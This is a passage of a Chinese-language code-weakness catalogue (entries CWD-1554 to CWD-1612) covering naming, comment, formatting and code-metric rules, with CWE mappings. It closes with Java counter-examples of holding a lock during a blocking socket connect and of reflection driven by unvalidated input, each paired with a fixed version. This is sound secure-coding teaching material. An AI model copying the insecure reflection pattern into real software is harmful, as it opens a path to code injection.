命名（包含：函数名、变量、常量、类名等）不符合规约或未使用统一的命名风格。

**语言: **C,CPP,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1554-000 命名不合规约

---

# CWD-1555 未使用统一的命名风格

**描述**
代码、文档或其他文件对变量、可调用对象、相关可调用对象组、I/O能力、数据类型、文件名或类似类型的元素未使用统一的命名约定。该问题使得理解和/或维护产品变得更加困难，从而通过增加查找和/或修复漏洞的难度或时间，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：大驼峰，小驼峰，标识符的字符约定等。

**语言: **C,CPP,JAVA,ARKTS,XML,FILE,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1555-000 未使用统一的命名风格

**业界缺陷**

- [CWE-1099: Inconsistent Naming Conventions for Identifiers](https://cwe.mitre.org/data/definitions/1099.html)
---

# CWD-1556 文件扩展名未遵循命名约定

**描述**
文件扩展名未遵循命名约定可能会导致一些问题。例如，如果一个文件的扩展名是“.txt”，但实际上它是一个 HTML 文件，那么浏览器可能会将其视为纯文本文件，而不是 HTML 文件。这可能会导致一些问题，例如在浏览器中显示的内容可能不正确。此外，如果文件的扩展名与文件的内容不匹配，那么一些软件可能无法正确地打开或处理该文件。因此，遵循文件扩展名的命名约定是非常重要的。

**语言: **C,CPP,JAVASCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1556-000 文件扩展名未遵循命名约定

---

# CWD-1557 定义与内置、保留、外层作用域中的标识符重名

**描述**
自定义的标识符和内置标识符、保留标识符、外层作用域中的标识符重名，会造成代码难以理解。

**语言: **C,CPP,JAVA,ARKTS,PHP,FILE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1557-000 定义与内置、保留、外层作用域中的标识符重名

---

# CWD-1558 将同一变量用于多种用途

**描述**
一个变量应该只用于一种用途，否则，将同一变量用于多种用途时，不但会降低代码的可读性，而且可能隐藏其他问题。

**语言: **CPP,JAVA,PYTHON,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1558-000 将同一变量用于多种用途

**业界缺陷**

- [CWE-1109: Use of Same Variable for Multiple Purposes](https://cwe.mitre.org/data/definitions/1109.html)
---

# CWD-1559 注释不合规约

**描述**
源代码中的注释（doc注释，代码注释，文件头注释，等）不符合规约。

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1559-000 注释不合规约

---

# CWD-1560 不合规约的注释风格

**描述**
源代码使用的注释样式或格式不一致或不符合产品的预期标准。

**语言: **C,CPP,JAVASCRIPT,TYPESCRIPT,RUST,SHELL,ARKTS,KOTLIN,LUA,RUBY,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1560-000 不合规约的注释风格

**业界缺陷**

- [CWE-1113: Inappropriate Comment Style](https://cwe.mitre.org/data/definitions/1113.html)
---

# CWD-1561 文件头注释缺少必要内容

**描述**
文件头注释应遵循制定的内容要求，比如版权、功能、作者、日期、注意事项等。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN,LUA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1561-000 文件头注释缺少必要内容

**业界缺陷**

- [CWE-1115: Source Code Element without Standard Prologue](https://cwe.mitre.org/data/definitions/1115.html)
---

# CWD-1562 方法和对象的注释缺少必要的标签

**描述**
函数或方法的注释无法准确解释其功能、返回值、参数等信息。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,RUST,ARKTS,KOTLIN,LUA,SQL

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1562-000 方法和对象的注释缺少必要的标签

**业界缺陷**

- [CWE-1117: Callable with Insufficient Behavioral Summary](https://cwe.mitre.org/data/definitions/1117.html)
---

# CWD-1563 注释不能准确表达代码的行为

**描述**
源代码包含的注释不能准确解释代码的意图（注释错误，或者仅在注释中提供了部分代码内容）。

**语言: **C,CPP,SHELL,ARKTS,RUBY

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1563-000 注释不能准确表达代码的行为

**业界缺陷**

- [CWE-1116: Inaccurate Comments](https://cwe.mitre.org/data/definitions/1116.html)
---

# CWD-1564 交付代码中包含TODO/TBD/FIXME等注释

**描述**
代码包含的注释表明存在bug、不完整的功能或弱点。如：BUG, HACK, FIXME, LATER, LATER2, TODO。

**语言: **C,CPP,JAVASCRIPT,TYPESCRIPT,ARKTS,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1564-000 交付代码中包含TODO/TBD/FIXME等注释

**业界缺陷**

- [CWE-546: Suspicious Comment](https://cwe.mitre.org/data/definitions/546.html)
---

# CWD-1565 格式不合规约

**描述**
源代码中的格式（源文件，括号，缩进，换行，空行，注解，注释排版，修饰符，等）不符合规约。

**语言: **C,CPP,TYPESCRIPT,ARKTS,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1565-000 格式不合规约

---

# CWD-1566 源文件编码格式不合规约

**描述**
对于源文件，应统一采用统一规定的编码格式进行编码。另外，对于资源文件（如xml、yml、properties等配置文件）等也应该采用统一规定的编码格式进行编码。例如：华为公司建议采用UTF-8进行编码。

**语言: **C,CPP,JAVA,PYTHON,JAVASCRIPT,TYPESCRIPT,CANGJIE,ARKTS,RUBY

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1566-000 源文件编码格式不合规约

---

# CWD-1567 代码缩进不合规约

**描述**
源代码的代码缩进不符合预期规约。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：代码编码应该使用统一的风格进行缩进，华为公司java代码建议采用4个空格进行缩进。

**语言: **C,CPP,JAVA,ARKTS,FILE,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1567-000 代码缩进不合规约

---

# CWD-1568 未合理使用括号

**描述**
代码块的大括号‘{}’函数调用的小括号‘()’使用不符合预期的规约。例如：1. if/for/while/do-while/switch 等条件、循环语句中未使用大括号容易导致错误，并且会导致代码的可读性降低。2. Ruby 解释器（大部分情况下）不需要()，但适量的()可以增强代码的可读性。

**语言: **C,CPP,JAVA,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1568-000 未合理使用括号

---

# CWD-1569 单行声明的语句或变量数量不合规约

**描述**
源代码的声明语句或变量的数量不符合预期规约。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：1. 单行有多条语句，影响代码结构和程序阅读。2. 单个语句声明多个变量，在添加新变量时，还需要将`;`变成`,`，比较容易引入错误；另外，这种声明方式也不利于使用debug逐行调试，会一次跳过这些变量。

**语言: **C,CPP,JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN,LUA,RUBY,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1569-000 单行声明的语句或变量数量不合规约

---

# CWD-1570 代码行宽不合规约

**描述**
源代码的代码行宽度超过规约的预期标准。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：华为公司建议行宽不超过120个单字符。

**语言: **C,CPP,JAVA,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1570-000 代码行宽不合规约

---

# CWD-1571 代码换行不合规约

**描述**
当语句过长，或者可读性不佳时，需要在合适的地方换行。但源代码的代码换行位置不符合的预期规约，会增加代码的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：华为公司java代码建议：换行时建议将操作符、连接符放在新的一行。

**语言: **C,CPP,JAVA,ARKTS,FILE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1571-000 代码换行不合规约

---

# CWD-1572 代码空行不合规约

**描述**
源代码的代码空行样式在整个代码中不一致，或不符合预期规约。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：华为公司建议：


1. 根据上下内容的相关程度，合理安排空行：空行出现在属性，构造方法，方法，嵌套类，静态初始化块之间；2. 方法内部、类型定义内部、初始化表达式内部，不使用连续空行；3. 不使用连续3个或更多空行；4. 大括号内的代码块行首之前和行尾之后不要加空行，包括类型和方法定义、语句代码块。
**语言: **C,CPP,JAVA,PYTHON,JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN,LUA,RUBY

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1572-000 代码空行不合规约

---

# CWD-1573 代码空格不合规约

**描述**
源代码的代码空格样式在整个代码中不一致，或不符合预期规约。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：华为公司java代码建议：不应插入多余空格使代码垂直对齐；有必须加空格场景（赋值运算符前后，例如=、*= 等）、禁止加空格场景（一元运算符前后，例如cnt++等）。

**语言: **C,CPP,JAVA,ARKTS,XML,FILE,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1573-000 代码空格不合规约

---

# CWD-1574 代码元素顺序不合规约

**描述**
源代码的代码元素顺序不符合预期的规约。例如：华为公司C++编码中建议类的public、protected、 private控制块顺序，各成员函数声明顺序；华为公司Java编码中建议package、import、顶层类代码块顺序等。

**语言: **C,CPP,JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN,LUA,RUBY,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1574-000 代码元素顺序不合规约

---

# CWD-1575 表达式的比较未遵循左侧和右侧的倾向规约

**描述**
当变量与常量比较时，如果常量放左边，如 if (MAX == v) 不符合阅读习惯，而 if (MAX > v) 更是难于理解。

**语言: **C,CPP,JAVA,GO,JAVASCRIPT,ARKTS,LUA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1575-000 表达式的比较未遵循左侧和右侧的倾向规约

---

# CWD-1576 类型修饰符风格不合规约

**描述**
类型修饰符风格不符合规约。例如，指针类型的类型修饰符`*`可以跟随类型也可以跟随变量名或函数名，编写代码时需要选择使用其中一种风格。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1576-000 类型修饰符风格不合规约

---

# CWD-1577 数值型字面量未合理设置后缀

**描述**
数值型字面量未添加后缀或后缀易引起混淆的情况，如：小写字母“l”指定long类型时，在视觉上容易和数字 1 混淆，一些字面量如果不加后缀，类型推断时可能与预期不符。

**语言: **C,CPP,JAVA,RUST,ARKTS,SQL

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1577-000 数值型字面量未合理设置后缀

---

# CWD-1578 未显式指定被调用接口的语言标识

**描述**
当使用 extern 指定外部接口时，未显式指定此接口的语言标识（ABI 标识），可能会导致无法正常调用此接口。

**语言: **C,RUST

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1578-000 未显式指定被调用接口的语言标识

---

# CWD-1579 逗号、分号使用不合规约

**描述**
源代码中逗号、分号使用不符合预期的规约。例如：华为公司JavaScript编码中建议每句代码后不要省略分号。

**语言: **C,CPP,ARKTS,FILE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1579-000 逗号、分号使用不合规约

---

# CWD-1580 包裹字符串的引号不合规约

**描述**
包裹字符串的引号（单引号、双引号、三引号）不符合预期的规约。例如：华为公司ArkTS编码中建议字符串使用单引号。

**语言: **CPP,JAVASCRIPT,TYPESCRIPT,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1580-000 包裹字符串的引号不合规约

---

# CWD-1581 数字序列分隔符风格不合规约

**描述**
C++14 起数字之间可插入作为分隔符的可选的单引号（'）。编译器会忽略它们。有统一的数字序列分隔符风格，但代码中未遵循。例如：（1）在十进制中，每三位数字用来分割数字序列，如`3'000'000`。（2）在十六进制中，每两位数字用来分隔数字序列，如`0xFF'FF'FF'FF`。（3）在二进制中，每四位数字用来分隔数字序列。

**语言: **CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1581-000 数字序列分隔符风格不合规约

---

# CWD-1582 数组类型的表示方式不合规约

**描述**
数组类型的表示方式不符合预期的规约。例如：华为公司ArkTS编码中建议用T[]而不是 Array表示所有数组类型。

**语言: **CPP,JAVA,TYPESCRIPT,ARKTS,RUBY

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1582-000 数组类型的表示方式不合规约

---

# CWD-1583 代码访问属性表示法不合规约

**描述**
点表示法更易于阅读、与最小化程序配合使用。例如：华为公司JavaScript编码中，推荐使用点表示法 (foo.bar) 访问属性。

**语言: **JAVASCRIPT,TYPESCRIPT,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1583-000 代码访问属性表示法不合规约

---

# CWD-1584 属性绑定变量未合理使用缩写

**描述**
属性绑定变量时，应该使用缩写的:，而不是完整的指令v-bind:

**语言: **JAVASCRIPT

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1584-000 属性绑定变量未合理使用缩写

---

# CWD-1585 Domain层级定义不合规约

**描述**
源代码的Domain层级定义不符合预期规约。这个问题增加了对产品的理解和维护难度，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。例如：java的Domain层级定义有相应的规约，如model，dao，entity，service等，并且有相应的层级目录放置要求。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1585-000 Domain层级定义不合规约

---

# CWD-1586 代码规模过大

**描述**
代码规模（Code Size）是指一个统计对象的总代码行。过大的代码规模意味着产品的代码维护难度大、成本高和效率低。公式：代码规模=SUM（文件代码行）

**语言: **C,CPP,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1586-000 代码规模过大

---

# CWD-1587 超大目录

**描述**
超大目录（Huge Folder）是指超大目录个数占比。其中，超大目录指本目录节点下子目录数和文件数之和超过阈值（50，该值可基于业务实际情况进行定制）的目录（注意：不计算该目录节点下子目录下更深层次的子目录数和文件数）。目录过大会导致易读性、可维护性问题。对超大目录进行分析可帮助业务团队设置合理的目录结构。公式：超大目录比例=SUM（SUM（目录节点下子目录个数，目录节点下文件个数）＞阈值）∕总目录数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1587-000 超大目录

---

# CWD-1588 文件行过大

**描述**
依据《华为代码度量评估参考模型》，文件行包含平均文件代码行、超大头文件、超大源文件。

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1588-000 文件行过大

**业界缺陷**

- [CWE-1080: Source Code File with Excessive Number of Lines of Code](https://cwe.mitre.org/data/definitions/1080.html)
---

# CWD-1589 平均文件代码行过大

**描述**
平均文件代码行（Lines Per File）是指一个统计对象的总平均文件代码行。过长的文件往往意味着文件（模块）功能不单一，过于复杂。公式：平均文件代码行=SUM（文件代码行）/总文件个数

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,RUST,CANGJIE,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1589-000 平均文件代码行过大

---

# CWD-1590 超大头文件

**描述**
超大头文件（Huge Header File Ratio）是指代码行超过阈值（500LOC，该值可基于业务实际情况进行定制）的C、C++头文件个数占比。超大头文件意味着代码架构管理不清晰。公式：超大头文件比例=SUM(头文件代码行>阈值)∕总文件个数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1590-000 超大头文件

---

# CWD-1591 超大源文件

**描述**
超大源文件（Huge Non-Header File Ratio）是指代码行超过阈值（2000LOC，该值可基于业务实际情况进行定制）的源文件（不包含头文件）个数占比。超大源文件意味着代码可读性差，给软件维护和变更带来严重质量隐患。公式：超大源文件比例=SUM(源文件代码行>阈值)∕总文件个数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1591-000 超大源文件

---

# CWD-1592 文件重复

**描述**
依据《华为代码度量评估参考模型》，文件重复包含总文件重复率、源文件重复率

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1592-000 文件重复

---

# CWD-1593 总文件重复率过大

**描述**
总文件重复率（File Duplication Ratio）是指度量对象范围内完全相同的文件重复率。高重复率意味着相同或类似功能的单板、模块或功能单元缺乏抽象和管理。公式：总文件重复率=重复文件总数/总文件个数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1593-000 总文件重复率过大

---

# CWD-1594 源文件重复率过大

**描述**
源文件重复率（Non H-File Duplication）是指两个源文件（不包含头文件）完全一样。公式：源文件重复率=源文件重复总数/总文件个数

**语言: **C,CPP,PYTHON,RUST,CANGJIE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1594-000 源文件重复率过大

---

# CWD-1595 函数或方法行过大

**描述**
依据《华为代码度量评估参考模型》，函数或方法行包含平均函数代码行、超大函数

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1595-000 函数或方法行过大

---

# CWD-1596 平均函数代码行过大

**描述**
平均函数代码行（Lines Per Method）是指一个统计对象总的平均方法（Method）代码行。过长的方法往往意味着方法功能不单一，过于复杂。可牵引产品设计良好的目录（子系统）、文件（模块）等。公式：平均方法代码行=SUM（方法代码行）/总方法个数

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,RUST,CANGJIE,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1596-000 平均函数代码行过大

---

# CWD-1597 超大函数

**描述**
超大函数（Huge Method Ratio）是指统计对象代码范围内代码行超过阈值（50LOC，该值可基于业务实际情况进行定制）的方法个数占比。对评估范围内TOPN方法的分析，可帮助业务团队降低方法复杂度，牵引良好设计。公式：超大方法比例=SUM(方法代码行>阈值)∕总方法个数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1597-000 超大函数

---

# CWD-1598 代码重复

**描述**
依据《华为代码度量评估参考模型》，代码重复包含总代码重复率、源文件代码重复率

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1598-000 代码重复

---

# CWD-1599 总代码重复率过大

**描述**
总代码重复率（Code Duplication Ratio）是指重复代码行总数占代码总行数的比例。其中，同一交付对象里连续超过一定行数的代码块在其它地方重复出现记为一次重复，华为公司代码重复率的计算单元是10行（该值可基于业务实际情况进行定制）。代码重复导致的“散弹式修改”，给缺陷修复和补丁管理带来极大的困难，不仅降低开发效率，而且容易出错，造成质量和安全隐患。公式：总代码重复率=重复代码行总数/代码行总数

**语言: **C,CPP,JAVASCRIPT,TYPESCRIPT,RUST,CANGJIE,ARKTS,PHP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1599-000 总代码重复率过大

---

# CWD-1600 源文件代码重复率过大

**描述**
源文件代码重复率（Non H-File Code Duplication Ratio）是指统计对象中源文件的代码重复率。公式：源文件代码重复率=源文件重复代码行总数/代码行总数

**语言: **C,CPP,PYTHON,RUST,CANGJIE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1600-000 源文件代码重复率过大

---

# CWD-1601 圈复杂度过大

**描述**
依据《华为代码度量评估参考模型》，过大的圈复杂度包含平均圈复杂度、超大圈复杂度

**语言: **C,CPP,JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1601-000 圈复杂度过大

**业界缺陷**

- [CWE-1121: Excessive McCabe Cyclomatic Complexity](https://cwe.mitre.org/data/definitions/1121.html)
---

# CWD-1602 平均圈复杂度过大

**描述**
平均圈复杂度（Cyclomatic Complexity Per Method）用来衡量一个程序模块所包含的判定结构的复杂程度，数量上表现为独立路径的条数，即合理地预防错误所需测试的最少路径条数。圈复杂度大的程序，说明其代码可能质量低且难于测试和维护。公式：平均圈复杂度=SUM（方法圈复杂度）/总方法个数。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,RUST,CANGJIE,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1602-000 平均圈复杂度过大

---

# CWD-1603 超大圈复杂度

**描述**
超大圈复杂度（Huge Cyclomatic Complexity Ratio）是指评估对象代码范围内圈复杂度超过阈值（20，该值可基于业务实际情况进行定制）的方法个数占比。公式：超大圈复杂度方法比例=SUM(方法圈复杂度>阈值)∕总方法个数

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1603-000 超大圈复杂度

---

# CWD-1604 代码嵌套深度过大

**描述**
代码深度（huge_depth）代码包含可调用或其他代码分组，其中嵌套/分支太深。函数深度默认为1，每出现以下关键字一次且关键字之间为嵌套关系，则该代码片段深度加1，若关键字之间不是嵌套关系，则深度不变。注意：闭包也会计算深度，但是不会计算圈复杂度c,java: if|else if|for|switch|do|while|try|catch|finallygo:else if|if|for|switch|select|funclua:if|for|while|repeat|until|end

**语言: **C,CPP,JAVA,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1604-000 代码嵌套深度过大

**业界缺陷**

- [CWE-1124: Excessively Deep Nesting](https://cwe.mitre.org/data/definitions/1124.html)
---

# CWD-1605 目录层级深度过大

**描述**
目录层级深度过大可能会导致文件管理不方便，容易出现文件重名或者文件遗漏的情况。此外，如果目录层级过深，可能会影响系统的性能和响应速度。因此，在进行文件管理时，建议尽量减少目录层级深度，合理组织文件目录结构，以便于快速查找和管理文件。

**语言: **JAVA,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1605-000 目录层级深度过大

---

# CWD-1606 注释掉的代码块密度过大（代码度量：冗余代码）

**描述**
冗余代码（Redundant Code KLOC）是指通过//或者/**/注释掉的代码块的密度。冗余代码一直不被测试，在取消注释时存在安全隐患。公式：冗余代码块密度=根据冗余代码定义统计出的块数∕代码行总数（个/KLOC）

**语言: **C,CPP,JAVA,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1606-000 注释掉的代码块密度过大（代码度量：冗余代码）

**业界缺陷**

- [CWE-1085: Invokable Control Element with Excessive Volume of Commented-out Code](https://cwe.mitre.org/data/definitions/1085.html)
---

# CWD-1607 编译告警密度过大

**描述**
编译告警（Compilation Warnings）编译器编译代码过程中出现的所有告警的密度。公式：编译告警密度=编译告警个数/代码行总数（个/KLOC）

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1607-000 编译告警密度过大

**业界缺陷**

- [CWE-1127: Compilation with Insufficient Warnings or Errors](https://cwe.mitre.org/data/definitions/1127.html)
---

# CWD-1608 不安全函数

**描述**
不安全函数（Unsafe Function KLOC）"分函数没有检查目标缓冲区的大小，很容易引入缓冲区溢出的安全漏洞，并且这些函数没有处理一些特殊情况（例如内存重叠），因此是不安全的，可能会导致意想不到的问题，这类函数被称为不安全函数。包括标准库不安全函数、产品/平台封装或自实现的不安全函数。这里度量全部（含备案）不安全函数的密度。公式：不安全函数密度=不安全函数个数/代码行总数（个/KLOC）

**语言: **C,CPP,ARKTS,MICROCODE

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1608-000 不安全函数

**业界缺陷**

- [CWE-676: Use of Potentially Dangerous Function](https://cwe.mitre.org/data/definitions/676.html)
---

# CWD-1609 Halstead复杂度过大

**描述**
Halstead复杂度是基于代码中的操作符和操作数的数量来计算复杂度。Halstead复杂度越大，表示代码的复杂度越高。

**语言: **C,CPP,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1609-000 Halstead复杂度过大

**业界缺陷**

- [CWE-1122: Excessive Halstead Complexity](https://cwe.mitre.org/data/definitions/1122.html)
---

# CWD-1610 扇入扇出过大

**描述**
来源于《HIS SOURCE CODE METRICS》，在某个文件中定义的函数，被其他函数调用的次数必须小于或等于5。单个函数体中调用其他不同函数的数量必须小于或等于7。

**语言: **C,CPP,ARKTS

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1610-000 扇入扇出过大

**业界缺陷**

- [CWE-1048: Invokable Control Element with Large Number of Outward Calls](https://cwe.mitre.org/data/definitions/1048.html)
---

# CWD-1611 持有锁时执行耗时或阻塞性操作

**描述**
加锁期间执行耗时或阻塞性操作会降低系统的性能，导致线程饥饿或死锁问题。常见的阻塞性操作包括：网络、文件、控制台I/O和对象序列化等；线程无限期的等待也属于阻塞性的操作。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 持有锁时执行耗时或阻塞性的操作**
**语言: **JAVA

**描述**
本示例中，在同步方法中建立socket链接，由于connect()方法未设置超时时间，服务端socket无法正常listen，会导致此方法一直阻塞。

**反例**
```java
public synchronized Socket connect(String ip, int port) {
    try {
        Socket socket = new Socket();
        socket.connect(new InetSocketAddress(ip, port));
        return socket;
    } catch (IOException ex) {
        ...
    }
    ...
}
```

**正例**
```java
public synchronized Socket connect(String ip, int port) {
    try {
        Socket socket = new Socket();
        socket.connect(new InetSocketAddress(ip, port), 10000);
        return socket;
    } catch (IOException ex) {
        ...
    }
    ...
}
```

**修复建议**
在同步方法中建立socket链接时，connect()方法设置超时时间为10秒。

#### CWD-1611-000 持有锁时执行耗时或阻塞性操作

#### CWD-1611-001 初始化时间变长导致时序问题

---

# CWD-1612 不安全的反射

**别名: **使用外部控制输入来选择类或代码（又称“不安全反射”）

**描述**
在Java编程中，反射是一种允许程序在运行时动态地访问和操作类、方法和字段的机制。然而，如果反射的使用依赖于外部控制的输入（如用户提供的字符串），可能会导致不安全的问题。攻击者可以通过控制输入来注入恶意代码或访问敏感信息，从而引发安全漏洞。建议通过输入验证，使用白名单机制等手段避免。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.使用白名单机制：在设计动态选择类或代码的逻辑时，使用白名单机制，限制只能访问预定义的、安全的类和方法。
  2.避免反射的过度使用：尽量减少反射的使用，特别是在处理外部输入时，优先使用静态类型和编译时检查。
  3.异常安全的设计：确保在设计反射逻辑时，考虑异常情况，确保程序在出现意外输入时能够优雅地处理

**编码**
- 策略：
  1.输入验证：对所有外部输入进行严格的验证，确保输入符合预期的格式和范围。
  2.使用白名单机制：在反射操作中，只允许访问预定义的、安全的类和方法，拒绝所有不在白名单中的输入。
  3.避免反射的过度使用：尽量减少反射的使用，特别是在处理外部输入时，优先使用静态类型和编译时检查。
  4.异常处理：在反射操作中添加异常处理机制，确保在出现意外情况时程序能够优雅地处理，避免崩溃或泄露敏感信息

**开发者测试**
- 策略：
  1.手动测试反射逻辑：在测试中，显式测试反射逻辑，确保其行为符合预期。
  2.测试异常情况：在测试中，模拟恶意输入或异常情况，确保反射逻辑在异常情况下仍能正确处理。

**代码Review**
- 策略：
  1.检查反射的使用：在代码审查过程中，检查所有反射操作是否都有严格的输入验证和白名单机制。
  2.检查异常处理：确保在反射操作中，异常处理机制被正确实现，避免因异常导致程序崩溃或泄露敏感信息。
  3.检查白名单机制的使用：确保白名单机制被正确使用，避免反射操作访问未授权的类或方法。
  4.检查反射逻辑的生命周期：确保反射逻辑的创建和删除逻辑清晰，避免反射操作被滥用或误用。

**代码检查**
- 策略：
  1.设置代码检查规则检测反射漏洞：使用静态分析工具检测所有反射操作是否都有严格的输入验证和白名单机制，避免遗漏。
  2.设置代码检查规则检测异常处理：使用工具检查反射操作中的异常处理机制是否正确，确保程序在出现意外情况时能够优雅地处理。

**集成测试**
- 策略：
  1.监控反射操作的使用：在集成测试中，监控程序的反射操作，确保没有不安全的反射行为。
  2.测试异常情况：在集成测试中，模拟恶意输入或反射操作失败的情况，确保反射逻辑在极端情况下仍能正确处理。

**示例**
**案例1: 未对外部数据进行验证**
**语言: **JAVA

**描述**
在风险代码中，程序直接使用外部输入的methodName来反射调用方法，而没有对输入进行任何验证。

**案例分析**
在风险代码案例中，程序直接使用外部输入的methodName来反射调用方法，而没有对输入进行任何验证。攻击者可以利用这一点，通过提供恶意的方法名，导致程序执行任意代码，引发代码注入攻击。此外，如果反射操作访问不存在的类或方法，可能导致程序崩溃或泄露敏感信息。

**反例**
```java
import java.lang.reflect.Method;

public class UnsafeReflectionExample {
    public static void main(String[] args) {
        if (args.length < 1) {
            System.out.println("Usage: java UnsafeReflectionExample <methodName>");
            return;
        }

        String methodName = args[0];
        try {
            // 使用外部输入直接反射调用方法
            Method method = UnsafeReflectionExample.class.getMethod(methodName);
            method.invoke(null);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void safeMethod() {
        System.out.println("This is a safe method.");
    }

    // 其他方法...
}
```

**正例**
```java
import java.lang.reflect.Method;

public class SafeReflectionExample {
    public static void main(String[] args) {
        if (args.length < 1) {
            System.out.println("Usage: java SafeReflectionExample <methodName>");
            return;
        }

        String methodName = args[0];
        try {
            // 验证输入是否在白名单中
            if (!isValidMethod(methodName)) {
                throw new IllegalArgumentException("Invalid method name: " + methodName);
            }

            // 使用反射调用方法
            Method method = SafeReflectionExample.class.getMethod(methodName);
            method.invoke(null);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean isValidMethod(String methodName) {
        // 白名单中的允许方法
        String[] allowedMethods = {"safeMethod"};
        for (String allowed : allowedMethods) {
            if (allowed.equals(methodName)) {
                return true;
            }
        }
        return false;
